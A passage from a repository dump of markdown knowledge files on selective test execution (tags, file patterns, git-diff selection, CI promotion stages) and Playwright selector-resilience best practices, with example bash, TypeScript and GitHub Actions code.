# Cypress (with @cypress/grep plugin)
npx cypress run --env grepTags="@smoke"
npx cypress run --env grepTags="@p0+@smoke"  # AND logic
npx cypress run --env grepTags="@p0 @p1"     # OR logic
```

**Key Points**:

- **Multiple tags per test**: Combine priority (@p0) with stage (@smoke)
- **AND/OR logic**: Grep supports complex filtering
- **Clear naming**: Tags document test importance
- **Fast feedback**: @smoke runs < 5 min, full suite < 30 min
- **CI integration**: Different jobs run different tag combinations

---

### Example 2: Spec Filter Pattern (File-Based Selection)

**Context**: Run tests by file path pattern or directory for targeted execution.

**Implementation**:

```bash
#!/bin/bash
# scripts/selective-spec-runner.sh
# Run tests based on spec file patterns

set -e

PATTERN=${1:-"**/*.spec.ts"}
TEST_ENV=${TEST_ENV:-local}

echo "🎯 Selective Spec Runner"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "Pattern: $PATTERN"
echo "Environment: $TEST_ENV"
echo ""

# Pattern examples and their use cases
case "$PATTERN" in
  "**/checkout*")
    echo "📦 Running checkout-related tests"
    npx playwright test --grep-files="**/checkout*"
    ;;
  "**/auth*"|"**/login*"|"**/signup*")
    echo "🔐 Running authentication tests"
    npx playwright test --grep-files="**/auth*|**/login*|**/signup*"
    ;;
  "tests/e2e/**")
    echo "🌐 Running all E2E tests"
    npx playwright test tests/e2e/
    ;;
  "tests/integration/**")
    echo "🔌 Running all integration tests"
    npx playwright test tests/integration/
    ;;
  "tests/component/**")
    echo "🧩 Running all component tests"
    npx playwright test tests/component/
    ;;
  *)
    echo "🔍 Running tests matching pattern: $PATTERN"
    npx playwright test "$PATTERN"
    ;;
esac
```

**Playwright config for file filtering**:

```typescript
// playwright.config.ts
import { defineConfig, devices } from '@playwright/test';

export default defineConfig({
  // ... other config

  // Project-based organization
  projects: [
    {
      name: 'smoke',
      testMatch: /.*smoke.*\.spec\.ts/,
      retries: 0,
    },
    {
      name: 'e2e',
      testMatch: /tests\/e2e\/.*\.spec\.ts/,
      retries: 2,
    },
    {
      name: 'integration',
      testMatch: /tests\/integration\/.*\.spec\.ts/,
      retries: 1,
    },
    {
      name: 'component',
      testMatch: /tests\/component\/.*\.spec\.ts/,
      use: { ...devices['Desktop Chrome'] },
    },
  ],
});
```

**Advanced pattern matching**:

```typescript
// scripts/run-by-component.ts
/**
 * Run tests related to specific component(s)
 * Usage: npm run test:component UserProfile,Settings
 */

import { execSync } from 'child_process';

const components = process.argv[2]?.split(',') || [];

if (components.length === 0) {
  console.error('❌ No components specified');
  console.log('Usage: npm run test:component UserProfile,Settings');
  process.exit(1);
}

// Convert component names to glob patterns
const patterns = components.map((comp) => `**/*${comp}*.spec.ts`).join(' ');

console.log(`🧩 Running tests for components: ${components.join(', ')}`);
console.log(`Patterns: ${patterns}`);

try {
  execSync(`npx playwright test ${patterns}`, {
    stdio: 'inherit',
    env: { ...process.env, CI: 'false' },
  });
} catch (error) {
  process.exit(1);
}
```

**package.json scripts**:

```json
{
  "scripts": {
    "test:checkout": "playwright test **/checkout*.spec.ts",
    "test:auth": "playwright test **/auth*.spec.ts **/login*.spec.ts",
    "test:e2e": "playwright test tests/e2e/",
    "test:integration": "playwright test tests/integration/",
    "test:component": "ts-node scripts/run-by-component.ts",
    "test:project": "playwright test --project",
    "test:smoke-project": "playwright test --project smoke"
  }
}
```

**Key Points**:

- **Glob patterns**: Wildcards match file paths flexibly
- **Project isolation**: Separate projects have different configs
- **Component targeting**: Run tests for specific features
- **Directory-based**: Organize tests by type (e2e, integration, component)
- **CI optimization**: Run subsets in parallel CI jobs

---

### Example 3: Diff-Based Test Selection (Changed Files Only)

**Context**: Run only tests affected by code changes for maximum speed.

**Implementation**:

```bash
#!/bin/bash
# scripts/test-changed-files.sh
# Intelligent test selection based on git diff

set -e

BASE_BRANCH=${BASE_BRANCH:-main}
TEST_ENV=${TEST_ENV:-local}

echo "🔍 Changed File Test Selector"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "Base branch: $BASE_BRANCH"
echo "Environment: $TEST_ENV"
echo ""

# Get changed files
CHANGED_FILES=$(git diff --name-only $BASE_BRANCH...HEAD)

if [ -z "$CHANGED_FILES" ]; then
  echo "✅ No files changed. Skipping tests."
  exit 0
fi

echo "Changed files:"
echo "$CHANGED_FILES" | sed 's/^/  - /'
echo ""

# Arrays to collect test specs
DIRECT_TEST_FILES=()
RELATED_TEST_FILES=()
RUN_ALL_TESTS=false

# Process each changed file
while IFS= read -r file; do
  case "$file" in
    # Changed test files: run them directly
    *.spec.ts|*.spec.js|*.test.ts|*.test.js|*.cy.ts|*.cy.js)
      DIRECT_TEST_FILES+=("$file")
      ;;

    # Critical config changes: run ALL tests
    package.json|package-lock.json|playwright.config.ts|cypress.config.ts|tsconfig.json|.github/workflows/*)
      echo "⚠️  Critical file changed: $file"
      RUN_ALL_TESTS=true
      break
      ;;

    # Component changes: find related tests
    src/components/*.tsx|src/components/*.jsx)
      COMPONENT_NAME=$(basename "$file" | sed 's/\.[^.]*$//')
      echo "🧩 Component changed: $COMPONENT_NAME"

      # Find tests matching component name
      FOUND_TESTS=$(find tests -name "*${COMPONENT_NAME}*.spec.ts" -o -name "*${COMPONENT_NAME}*.cy.ts" 2>/dev/null || true)
      if [ -n "$FOUND_TESTS" ]; then
        while IFS= read -r test_file; do
          RELATED_TEST_FILES+=("$test_file")
        done <<< "$FOUND_TESTS"
      fi
      ;;

    # Utility/lib changes: run integration + unit tests
    src/utils/*|src/lib/*|src/helpers/*)
      echo "⚙️  Utility file changed: $file"
      RELATED_TEST_FILES+=($(find tests/unit tests/integration -name "*.spec.ts" 2>/dev/null || true))
      ;;

    # API changes: run integration + e2e tests
    src/api/*|src/services/*|src/controllers/*)
      echo "🔌 API file changed: $file"
      RELATED_TEST_FILES+=($(find tests/integration tests/e2e -name "*.spec.ts" 2>/dev/null || true))
      ;;

    # Type changes: run all TypeScript tests
    *.d.ts|src/types/*)
      echo "📝 Type definition changed: $file"
      RUN_ALL_TESTS=true
      break
      ;;

    # Documentation only: skip tests
    *.md|brain/knowledge/docs_legacy/*|README*)
      echo "📄 Documentation changed: $file (no tests needed)"
      ;;

    *)
      echo "❓ Unclassified change: $file (running smoke tests)"
      RELATED_TEST_FILES+=($(find tests -name "*smoke*.spec.ts" 2>/dev/null || true))
      ;;
  esac
done <<< "$CHANGED_FILES"

# Execute tests based on analysis
if [ "$RUN_ALL_TESTS" = true ]; then
  echo ""
  echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
  echo "🚨 Running FULL test suite (critical changes detected)"
  echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
  npm run test
  exit $?
fi

# Combine and deduplicate test files
ALL_TEST_FILES=(${DIRECT_TEST_FILES[@]} ${RELATED_TEST_FILES[@]})
UNIQUE_TEST_FILES=($(echo "${ALL_TEST_FILES[@]}" | tr ' ' '\n' | sort -u))

if [ ${#UNIQUE_TEST_FILES[@]} -eq 0 ]; then
  echo ""
  echo "✅ No tests found for changed files. Running smoke tests."
  npm run test:smoke
  exit $?
fi

echo ""
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo "🎯 Running ${#UNIQUE_TEST_FILES[@]} test file(s)"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"

for test_file in "${UNIQUE_TEST_FILES[@]}"; do
  echo "  - $test_file"
done

echo ""
npm run test -- "${UNIQUE_TEST_FILES[@]}"
```

**GitHub Actions integration**:

```yaml
# .github/workflows/test-changed.yml
name: Test Changed Files
on:
  pull_request:
    types: [opened, synchronize, reopened]

jobs:
  detect-and-test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0 # Full history for accurate diff

      - name: Get changed files
        id: changed-files
        uses: tj-actions/changed-files@v40
        with:
          files: |
            src/**
            tests/**
            *.config.ts
          files_ignore: |
            **/*.md
            brain/knowledge/docs_legacy/**

      - name: Run tests for changed files
        if: steps.changed-files.outputs.any_changed == 'true'
        run: |
          echo "Changed files: ${{ steps.changed-files.outputs.all_changed_files }}"
          bash scripts/test-changed-files.sh
        env:
          BASE_BRANCH: ${{ github.base_ref }}
          TEST_ENV: staging
```

**Key Points**:

- **Intelligent mapping**: Code changes → related tests
- **Critical file detection**: Config changes = full suite
- **Component mapping**: UI changes → component + E2E tests
- **Fast feedback**: Run only what's needed (< 2 min typical)
- **Safety net**: Unrecognized changes run smoke tests

---

### Example 4: Promotion Rules (Pre-Commit → CI → Staging → Production)

**Context**: Progressive test execution strategy across deployment stages.

**Implementation**:

```typescript
// scripts/test-promotion-strategy.ts
/**
 * Test Promotion Strategy
 * Defines which tests run at each stage of the development lifecycle
 */

export type TestStage = 'pre-commit' | 'ci-pr' | 'ci-merge' | 'staging' | 'production';

export type TestPromotion = {
  stage: TestStage;
  description: string;
  testCommand: string;
  timebudget: string; // minutes
  required: boolean;
  failureAction: 'block' | 'warn' | 'alert';
};

export const TEST_PROMOTION_RULES: Record<TestStage, TestPromotion> = {
  'pre-commit': {
    stage: 'pre-commit',
    description: 'Local developer checks before git commit',
    testCommand: 'npm run test:smoke',
    timebudget: '2',
    required: true,
    failureAction: 'block',
  },
  'ci-pr': {
    stage: 'ci-pr',
    description: 'CI checks on pull request creation/update',
    testCommand: 'npm run test:changed && npm run test:p0-p1',
    timebudget: '10',
    required: true,
    failureAction: 'block',
  },
  'ci-merge': {
    stage: 'ci-merge',
    description: 'Full regression before merge to main',
    testCommand: 'npm run test:regression',
    timebudget: '30',
    required: true,
    failureAction: 'block',
  },
  staging: {
    stage: 'staging',
    description: 'Post-deployment validation in staging environment',
    testCommand: 'npm run test:e2e -- --grep "@smoke"',
    timebudget: '15',
    required: true,
    failureAction: 'block',
  },
  production: {
    stage: 'production',
    description: 'Production smoke tests post-deployment',
    testCommand: 'npm run test:e2e:prod -- --grep "@smoke.*@p0"',
    timebudget: '5',
    required: false,
    failureAction: 'alert',
  },
};

/**
 * Get tests to run for a specific stage
 */
export function getTestsForStage(stage: TestStage): TestPromotion {
  return TEST_PROMOTION_RULES[stage];
}

/**
 * Validate if tests can be promoted to next stage
 */
export function canPromote(currentStage: TestStage, testsPassed: boolean): boolean {
  const promotion = TEST_PROMOTION_RULES[currentStage];

  if (!promotion.required) {
    return true; // Non-required tests don't block promotion
  }

  return testsPassed;
}
```

**Husky pre-commit hook**:

```bash
#!/bin/bash
# .husky/pre-commit
# Run smoke tests before allowing commit

echo "🔍 Running pre-commit tests..."

npm run test:smoke

if [ $? -ne 0 ]; then
  echo ""
  echo "❌ Pre-commit tests failed!"
  echo "Please fix failures before committing."
  echo ""
  echo "To skip (NOT recommended): git commit --no-verify"
  exit 1
fi

echo "✅ Pre-commit tests passed"
```

**GitHub Actions workflow**:

```yaml
# .github/workflows/test-promotion.yml
name: Test Promotion Strategy
on:
  pull_request:
  push:
    branches: [main]
  workflow_dispatch:

jobs:
  # Stage 1: PR tests (changed + P0-P1)
  pr-tests:
    if: github.event_name == 'pull_request'
    runs-on: ubuntu-latest
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@v4
      - name: Run PR-level tests
        run: |
          npm run test:changed
          npm run test:p0-p1

  # Stage 2: Full regression (pre-merge)
  regression-tests:
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    timeout-minutes: 30
    steps:
      - uses: actions/checkout@v4
      - name: Run full regression
        run: npm run test:regression

  # Stage 3: Staging validation (post-deploy)
  staging-smoke:
    if: github.event_name == 'workflow_dispatch'
    runs-on: ubuntu-latest
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@v4
      - name: Run staging smoke tests
        run: npm run test:e2e -- --grep "@smoke"
        env:
          TEST_ENV: staging

  # Stage 4: Production smoke (post-deploy, non-blocking)
  production-smoke:
    if: github.event_name == 'workflow_dispatch'
    runs-on: ubuntu-latest
    timeout-minutes: 5
    continue-on-error: true # Don't fail deployment if smoke tests fail
    steps:
      - uses: actions/checkout@v4
      - name: Run production smoke tests
        run: npm run test:e2e:prod -- --grep "@smoke.*@p0"
        env:
          TEST_ENV: production

      - name: Alert on failure
        if: failure()
        uses: 8398a7/action-slack@v3
        with:
          status: ${{ job.status }}
          text: '🚨 Production smoke tests failed!'
          webhook_url: ${{ secrets.SLACK_WEBHOOK }}
```

**Selection strategy documentation**:

````markdown
# Test Selection Strategy

## Test Promotion Stages

| Stage      | Tests Run           | Time Budget | Blocks Deploy | Failure Action |
| ---------- | ------------------- | ----------- | ------------- | -------------- |
| Pre-Commit | Smoke (@smoke)      | 2 min       | ✅ Yes        | Block commit   |
| CI PR      | Changed + P0-P1     | 10 min      | ✅ Yes        | Block merge    |
| CI Merge   | Full regression     | 30 min      | ✅ Yes        | Block deploy   |
| Staging    | E2E smoke           | 15 min      | ✅ Yes        | Rollback       |
| Production | Critical smoke only | 5 min       | ❌ No         | Alert team     |

## When Full Regression Runs

Full regression suite (`npm run test:regression`) runs in these scenarios:

- ✅ Before merging to `main` (CI Merge stage)
- ✅ Nightly builds (scheduled workflow)
- ✅ Manual trigger (workflow_dispatch)
- ✅ Release candidate testing

Full regression does NOT run on:

- ❌ Every PR commit (too slow)
- ❌ Pre-commit hooks (too slow)
- ❌ Production deployments (deploy-blocking)

## Override Scenarios

Skip tests (emergency only):

```bash
git commit --no-verify  # Skip pre-commit hook
gh pr merge --admin     # Force merge (requires admin)
```
````

```

**Key Points**:
- **Progressive validation**: More tests at each stage
- **Time budgets**: Clear expectations per stage
- **Blocking vs. alerting**: Production tests don't block deploy
- **Documentation**: Team knows when full regression runs
- **Emergency overrides**: Documented but discouraged

---

## Test Selection Strategy Checklist

Before implementing selective testing, verify:

- [ ] **Tag strategy defined**: @smoke, @p0-p3, @regression documented
- [ ] **Time budgets set**: Each stage has clear timeout (smoke < 5 min, full < 30 min)
- [ ] **Changed file mapping**: Code changes → test selection logic implemented
- [ ] **Promotion rules documented**: README explains when full regression runs
- [ ] **CI integration**: GitHub Actions uses selective strategy
- [ ] **Local parity**: Developers can run same selections locally
- [ ] **Emergency overrides**: Skip mechanisms documented (--no-verify, admin merge)
- [ ] **Metrics tracked**: Monitor test execution time and selection accuracy

## Integration Points

- Used in workflows: `*ci` (CI/CD setup), `*automate` (test generation with tags)
- Related fragments: `ci-burn-in.md`, `test-priorities-matrix.md`, `test-quality.md`
- Selection tools: Playwright --grep, Cypress @cypress/grep, git diff

_Source: 32+ selective testing strategies blog, Murat testing philosophy, enterprise CI optimization_
```
```

## File: `src/agents/bmad-tea/resources/knowledge/selector-resilience.md`
```markdown
# Selector Resilience

## Principle

Robust selectors follow a strict hierarchy: **data-testid > ARIA roles > text content > CSS/IDs** (last resort). Selectors must be resilient to UI changes (styling, layout, content updates) and remain human-readable for maintenance.

## Rationale

**The Problem**: Brittle selectors (CSS classes, nth-child, complex XPath) break when UI styling changes, elements are reordered, or design updates occur. This causes test maintenance burden and false negatives.

**The Solution**: Prioritize semantic selectors that reflect user intent (ARIA roles, accessible names, test IDs). Use dynamic filtering for lists instead of nth() indexes. Validate selectors during code review and refactor proactively.

**Why This Matters**:

- Prevents false test failures (UI refactoring doesn't break tests)
- Improves accessibility (ARIA roles benefit both tests and screen readers)
- Enhances readability (semantic selectors document user intent)
- Reduces maintenance burden (robust selectors survive design changes)

## Pattern Examples

### Example 1: Selector Hierarchy (Priority Order with Examples)

**Context**: Choose the most resilient selector for each element type

**Implementation**:

```typescript
// tests/selectors/hierarchy-examples.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Selector Hierarchy Best Practices', () => {
  test('Level 1: data-testid (BEST - most resilient)', async ({ page }) => {
    await page.goto('/login');

    // ✅ Best: Dedicated test attribute (survives all UI changes)
    await page.getByTestId('email-input').fill('user@example.com');
    await page.getByTestId('password-input').fill('password123');
    await page.getByTestId('login-button').click();

    await expect(page.getByTestId('welcome-message')).toBeVisible();

    // Why it's best:
    // - Survives CSS refactoring (class name changes)
    // - Survives layout changes (element reordering)
    // - Survives content changes (button text updates)
    // - Explicit test contract (developer knows it's for testing)
  });

  test('Level 2: ARIA roles and accessible names (GOOD - future-proof)', async ({ page }) => {
    await page.goto('/login');

    // ✅ Good: Semantic HTML roles (benefits accessibility + tests)
    await page.getByRole('textbox', { name: 'Email' }).fill('user@example.com');
    await page.getByRole('textbox', { name: 'Password' }).fill('password123');
    await page.getByRole('button', { name: 'Sign In' }).click();

    await expect(page.getByRole('heading', { name: 'Welcome' })).toBeVisible();

    // Why it's good:
    // - Survives CSS refactoring
    // - Survives layout changes
    // - Enforces accessibility (screen reader compatible)
    // - Self-documenting (role + name = clear intent)
  });

  test('Level 3: Text content (ACCEPTABLE - user-centric)', async ({ page }) => {
    await page.goto('/dashboard');

    // ✅ Acceptable: Text content (matches user perception)
    await page.getByText('Create New Order').click();
    await expect(page.getByText('Order Details')).toBeVisible();

    // Why it's acceptable:
    // - User-centric (what user sees)
    // - Survives CSS/layout changes
    // - Breaks when copy changes (forces test update with content)

    // ⚠️ Use with caution for dynamic/localized content:
    // - Avoid for content with variables: "User 123" (use regex instead)
    // - Avoid for i18n content (use data-testid or ARIA)
  });

  test('Level 4: CSS classes/IDs (LAST RESORT - brittle)', async ({ page }) => {
    await page.goto('/login');

    // ❌ Last resort: CSS class (breaks with styling updates)
    // await page.locator('.btn-primary').click()

    // ❌ Last resort: ID (breaks if ID changes)
    // await page.locator('#login-form').fill(...)

    // ✅ Better: Use data-testid or ARIA instead
    await page.getByTestId('login-button').click();

    // Why CSS/ID is last resort:
    // - Breaks with CSS refactoring (class name changes)
    // - Breaks with HTML restructuring (ID changes)
    // - Not semantic (unclear what element does)
    // - Tight coupling between tests and styling
  });
});
```

**Key Points**:

- Hierarchy: data-testid (best) > ARIA (good) > text (acceptable) > CSS/ID (last resort)
- data-testid survives ALL UI changes (explicit test contract)
- ARIA roles enforce accessibility (screen reader compatible)
- Text content is user-centric (but breaks with copy changes)
- CSS/ID are brittle (break with styling refactoring)

---

### Example 2: Dynamic Selector Patterns (Lists, Filters, Regex)

**Context**: Handle dynamic content, lists, and variable data with resilient selectors

**Implementation**:

```typescript
// tests/selectors/dynamic-selectors.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Dynamic Selector Patterns', () => {
  test('regex for variable content (user IDs, timestamps)', async ({ page }) => {
    await page.goto('/users');

    // ✅ Good: Regex pattern for dynamic user IDs
    await expect(page.getByText(/User \d+/)).toBeVisible();

    // ✅ Good: Regex for timestamps
    await expect(page.getByText(/Last login: \d{4}-\d{2}-\d{2}/)).toBeVisible();

    // ✅ Good: Regex for dynamic counts
    await expect(page.getByText(/\d+ items in cart/)).toBeVisible();
  });

  test('partial text matching (case-insensitive, substring)', async ({ page }) => {
    await page.goto('/products');

    // ✅ Good: Partial match (survives minor text changes)
    await page.getByText('Product', { exact: false }).first().click();

    // ✅ Good: Case-insensitive (survives capitalization changes)
    await expect(page.getByText(/sign in/i)).toBeVisible();
  });

  test('filter locators for lists (avoid brittle nth)', async ({ page }) => {
    await page.goto('/products');

    // ❌ Bad: Index-based (breaks when order changes)
    // await page.locator('.product-card').nth(2).click()

    // ✅ Good: Filter by content (resilient to reordering)
    await page.locator('[data-testid="product-card"]').filter({ hasText: 'Premium Plan' }).click();

    // ✅ Good: Filter by attribute
    await page
      .locator('[data-testid="product-card"]')
      .filter({ has: page.locator('[data-status="active"]') })
      .first()
      .click();
  });

  test('nth() only when absolutely necessary', async ({ page }) => {
    await page.goto('/dashboard');

    // ⚠️ Acceptable: nth(0) for first item (common pattern)
    const firstNotification = page.getByTestId('notification').nth(0);
    await expect(firstNotification).toContainText('Welcome');

    // ❌ Bad: nth(5) for arbitrary index (fragile)
    // await page.getByTestId('notification').nth(5).click()

    // ✅ Better: Use filter() with specific criteria
    await page.getByTestId('notification').filter({ hasText: 'Critical Alert' }).click();
  });

  test('combine multiple locators for specificity', async ({ page }) => {
    await page.goto('/checkout');

    // ✅ Good: Narrow scope with combined locators
    const shippingSection = page.getByTestId('shipping-section');
    await shippingSection.getByLabel('Address Line 1').fill('123 Main St');
    await shippingSection.getByLabel('City').fill('New York');

    // Scoping prevents ambiguity (multiple "City" fields on page)
  });
});
```

**Key Points**:

- Regex patterns handle variable content (IDs, timestamps, counts)
- Partial matching survives minor text changes (`exact: false`)
- `filter()` is more resilient than `nth()` (content-based vs index-based)
- `nth(0)` acceptable for "first item", avoid arbitrary indexes
- Combine locators to narrow scope (prevent ambiguity)

---

### Example 3: Selector Anti-Patterns (What NOT to Do)

**Context**: Common selector mistakes that cause brittle tests

**Problem Examples**:

```typescript
// tests/selectors/anti-patterns.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Selector Anti-Patterns to Avoid', () => {
  test('❌ Anti-Pattern 1: CSS classes (brittle)', async ({ page }) => {
    await page.goto('/login');

    // ❌ Bad: CSS class (breaks with design system updates)
    // await page.locator('.btn-primary').click()
    // await page.locator('.form-input-lg').fill('test@example.com')

    // ✅ Good: Use data-testid or ARIA role
    await page.getByTestId('login-button').click();
    await page.getByRole('textbox', { name: 'Email' }).fill('test@example.com');
  });

  test('❌ Anti-Pattern 2: Index-based nth() (fragile)', async ({ page }) => {
    await page.goto('/products');

    // ❌ Bad: Index-based (breaks when product order changes)
    // await page.locator('.product-card').nth(3).click()

    // ✅ Good: Content-based filter
    await page.locator('[data-testid="product-card"]').filter({ hasText: 'Laptop' }).click();
  });

  test('❌ Anti-Pattern 3: Complex XPath (hard to maintain)', async ({ page }) => {
    await page.goto('/dashboard');

    // ❌ Bad: Complex XPath (unreadable, breaks with structure changes)
    // await page.locator('xpath=//div[@class="container"]//section[2]//button[contains(@class, "primary")]').click()

    // ✅ Good: Semantic selector
    await page.getByRole('button', { name: 'Create Order' }).click();
  });

  test('❌ Anti-Pattern 4: ID selectors (coupled to implementation)', async ({ page }) => {
    await page.goto('/settings');

    // ❌ Bad: HTML ID (breaks if ID changes for accessibility/SEO)
    // await page.locator('#user-settings-form').fill(...)

    // ✅ Good: data-testid or ARIA landmark
    await page.getByTestId('user-settings-form').getByLabel('Display Name').fill('John Doe');
  });

  test('✅ Refactoring: Bad → Good Selector', async ({ page }) => {
    await page.goto('/checkout');

    // Before (brittle):
    // await page.locator('.checkout-form > .payment-section > .btn-submit').click()

    // After (resilient):
    await page.getByTestId('checkout-form').getByRole('button', { name: 'Complete Payment' }).click();

    await expect(page.getByText('Payment successful')).toBeVisible();
  });
});
```

**Why These Fail**:

- **CSS classes**: Change frequently with design updates (Tailwind, CSS modules)
- **nth() indexes**: Fragile to element reordering (new features, A/B tests)
- **Complex XPath**: Unreadable, breaks with HTML structure changes
- **HTML IDs**: Not stable (accessibility improvements change IDs)

**Better Approach**: Use selector hierarchy (testid > ARIA > text)

---

### Example 4: Selector Debugging Techniques (Inspector, DevTools, MCP)

**Context**: Debug selector failures interactively to find better alternatives

**Implementation**:

```typescript
// tests/selectors/debugging-techniques.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Selector Debugging Techniques', () => {
  test('use Playwright Inspector to test selectors', async ({ page }) => {
    await page.goto('/dashboard');

    // Pause test to open Inspector
    await page.pause();

    // In Inspector console, test selectors:
    // page.getByTestId('user-menu')              ✅ Works
    // page.getByRole('button', { name: 'Profile' }) ✅ Works
    // page.locator('.btn-primary')               ❌ Brittle

    // Use "Pick Locator" feature to generate selectors
    // Use "Record" mode to capture user interactions

    await page.getByTestId('user-menu').click();
    await expect(page.getByRole('menu')).toBeVisible();
  });

  test('use locator.all() to debug lists', async ({ page }) => {
    await page.goto('/products');

    // Debug: How many products are visible?
    const products = await page.getByTestId('product-card').all();
    console.log(`Found ${products.length} products`);

    // Debug: What text is in each product?
    for (const product of products) {
      const text = await product.textContent();
      console.log(`Product text: ${text}`);
    }

    // Use findings to build better selector
    await page.getByTestId('product-card').filter({ hasText: 'Laptop' }).click();
  });

  test('use DevTools console to test selectors', async ({ page }) => {
    await page.goto('/checkout');

    // Open DevTools (manually or via page.pause())
    // Test selectors in console:
    // document.querySelectorAll('[data-testid="payment-method"]')
    // document.querySelector('#credit-card-input')

    // Find robust selector through trial and error
    await page.getByTestId('payment-method').selectOption('credit-card');
  });

  test('MCP browser_generate_locator (if available)', async ({ page }) => {
    await page.goto('/products');

    // If Playwright MCP available, use browser_generate_locator:
    // 1. Click element in browser
    // 2. MCP generates optimal selector
    // 3. Copy into test

    // Example output from MCP:
    // page.getByRole('link', { name: 'Product A' })

    // Use generated selector
    await page.getByRole('link', { name: 'Product A' }).click();
    await expect(page).toHaveURL(/\/products\/\d+/);
  });
});
```

**Key Points**:

- Playwright Inspector: Interactive selector testing with "Pick Locator" feature
- `locator.all()`: Debug lists to understand structure and content
- DevTools console: Test CSS selectors before adding to tests
- MCP browser_generate_locator: Auto-generate optimal selectors (if MCP available)
- Always validate selectors work before committing

---

### Example 2: Selector Refactoring Guide (Before/After Patterns)

**Context**: Systematically improve brittle selectors to resilient alternatives

**Implementation**:

```typescript
// tests/selectors/refactoring-guide.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Selector Refactoring Patterns', () => {
  test('refactor: CSS class → data-testid', async ({ page }) => {
    await page.goto('/products');

    // ❌ Before: CSS class (breaks with Tailwind updates)
    // await page.locator('.bg-blue-500.px-4.py-2.rounded').click()

    // ✅ After: data-testid
    await page.getByTestId('add-to-cart-button').click();

    // Implementation: Add data-testid to button component
    // <button className="bg-blue-500 px-4 py-2 rounded" data-testid="add-to-cart-button">
  });

  test('refactor: nth() index → filter()', async ({ page }) => {
    await page.goto('/users');

    // ❌ Before: Index-based (breaks when users reorder)
    // await page.locator('.user-row').nth(2).click()

    // ✅ After: Content-based filter
    await page.locator('[data-testid="user-row"]').filter({ hasText: 'john@example.com' }).click();
  });

  test('refactor: Complex XPath → ARIA role', async ({ page }) => {
    await page.goto('/checkout');

    // ❌ Before: Complex XPath (unreadable, brittle)
    // await page.locator('xpath=//div[@id="payment"]//form//button[contains(@class, "submit")]').click()

    // ✅ After: ARIA role
    await page.getByRole('button', { name: 'Complete Payment' }).click();
  });

  test('refactor: ID selector → data-testid', async ({ page }) => {
    await page.goto('/settings');

    // ❌ Before: HTML ID (changes with accessibility improvements)
    // await page.locator('#user-profile-section').getByLabel('Name').fill('John')

    // ✅ After: data-testid + semantic label
    await page.getByTestId('user-profile-section').getByLabel('Display Name').fill('John Doe');
  });

  test('refactor: Deeply nested CSS → scoped data-testid', async ({ page }) => {
    await page.goto('/dashboard');

    // ❌ Before: Deep nesting (breaks with structure changes)
    // await page.locator('.container .sidebar .menu .item:nth-child(3) a').click()

    // ✅ After: Scoped data-testid
    const sidebar = page.getByTestId('sidebar');
    await sidebar.getByRole('link', { name: 'Settings' }).click();
  });
});
```

**Key Points**:

- CSS class → data-testid (survives design system updates)
- nth() → filter() (content-based vs index-based)
- Complex XPath → ARIA role (readable, semantic)
- ID → data-testid (decouples from HTML structure)
- Deep nesting → scoped locators (modular, maintainable)

---

### Example 3: Selector Best Practices Checklist

```typescript
// tests/selectors/validation-checklist.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Selector Validation Checklist
 *
 * Before committing test, verify selectors meet these criteria:
 */
test.describe('Selector Best Practices Validation', () => {
  test('✅ 1. Prefer data-testid for interactive elements', async ({ page }) => {
    await page.goto('/login');

    // Interactive elements (buttons, inputs, links) should use data-testid
    await page.getByTestId('email-input').fill('test@example.com');
    await page.getByTestId('login-button').click();
  });

  test('✅ 2. Use ARIA roles for semantic elements', async ({ page }) => {
    await page.goto('/dashboard');

    // Semantic elements (headings, navigation, forms) use ARIA
    await expect(page.getByRole('heading', { name: 'Dashboard' })).toBeVisible();
    await page.getByRole('navigation').getByRole('link', { name: 'Settings' }).click();
  });

  test('✅ 3. Avoid CSS classes (except when testing styles)', async ({ page }) => {
    await page.goto('/products');

    // ❌ Never for interaction: page.locator('.btn-primary')
    // ✅ Only for visual regression: await expect(page.locator('.error-banner')).toHaveCSS('color', 'rgb(255, 0, 0)')
  });

  test('✅ 4. Use filter() instead of nth() for lists', async ({ page }) => {
    await page.goto('/orders');

    // List selection should be content-based
    await page.getByTestId('order-row').filter({ hasText: 'Order #12345' }).click();
  });

  test('✅ 5. Selectors are human-readable', async ({ page }) => {
    await page.goto('/checkout');

    // ✅ Good: Clear intent
    await page.getByTestId('shipping-address-form').getByLabel('Street Address').fill('123 Main St');

    // ❌ Bad: Cryptic
    // await page.locator('div > div:nth-child(2) > input[type="text"]').fill('123 Main St')
  });
});
```

**Validation Rules**:

1. **Interactive elements** (buttons, inputs) → data-testid
2. **Semantic elements** (headings, nav, forms) → ARIA roles
3. **CSS classes** → Avoid (except visual regression tests)
4. **Lists** → filter() over nth() (content-based selection)
5. **Readability** → Selectors document user intent (clear, semantic)

---

## Selector Resilience Checklist

Before deploying selectors:

- [ ] **Hierarchy followed**: data-testid (1st choice) > ARIA (2nd) > text (3rd) > CSS/ID (last resort)
- [ ] **Interactive elements use data-testid**: Buttons, inputs, links have dedicated test attributes
- [ ] **Semantic elements use ARIA**: Headings, navigation, forms use roles and accessible names
- [ ] **No brittle patterns**: No CSS classes (except visual tests), no arbitrary nth(), no complex XPath
- [ ] **Dynamic content handled**: Regex for IDs/timestamps, filter() for lists, partial matching for text
- [ ] **Selectors are scoped**: Use container locators to narrow scope (prevent ambiguity)
- [ ] **Human-readable**: Selectors document user intent (clear, semantic, maintainable)
- [ ] **Validated in Inspector**: Test selectors interactively before committing (page.pause())

## Integration Points

- **Used in workflows**: `*atdd` (generate tests with robust selectors), `*automate` (healing selector failures), `*test-review` (validate selector quality)
